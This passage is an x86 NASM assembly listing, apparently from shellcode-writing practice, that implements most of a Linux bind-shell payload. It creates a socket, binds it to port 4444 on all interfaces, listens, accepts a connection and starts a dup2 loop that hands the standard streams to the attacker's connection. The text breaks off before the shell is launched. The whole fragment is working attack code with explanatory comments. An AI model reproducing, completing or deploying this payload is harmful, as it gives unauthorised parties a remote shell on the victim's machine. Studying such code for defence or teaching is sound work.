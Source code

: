 ```nasm
	xor edx, edx		; 0 value because of single protocol	

	int 0x80		; exec socket syscall 

	mov ebx, eax		; move sockfd (file descriptor) value into ebx

	; bind
	xor eax, eax
	mov ax, 0x169		; 169 is the hex value of the decimal 361 for bind
	
	push edx 		; listens on all addresses (0.0.0.0)

	push word 0x5c11	; listen on port 4444 (little endian)

	push word 0x2		; AF_INET constant
	
	xor ecx, ecx
	mov ecx, esp		; ecx now points at address struct at the top of the stack

	xor edx, edx
	mov dl, 0x10		; 10 is the decimal 16 that is the size of the address struct

	int 0x80		; exec bind syscall

	xor ecx, ecx		; clear ecx

	; listen
	xor eax, eax
	mov ax, 0x16b		; 16b is the hex value of the decimal 363 for listen

	xor edx, edx
	push edx		; backlog value is 0

	push ebx		; sockfd
	
	int 0x80		; exec listen syscall

	; accept4
	xor eax, eax
	mov ax, 0x16c		; 16c is the hex value of the decimal 364 for accept4

	push edx		; 0
	push edx		; NULL argument
	push edx		; NULL argument

	push ebx		; sockfd

	int 0x80		; exec accept4 syscall

	mov ebx, eax		; acceptfd

	; dup2 loop
	xor ecx, ecx
	mov cl, 0x3		; set counter to 3

dup2loop:
	xor eax, eax
	mov al, 0x3f		; 3f is the hex value of the decimal 63 for dup2

	dec cl			; decrement counter by 1

	int 0x80		; exec dup2 syscall

```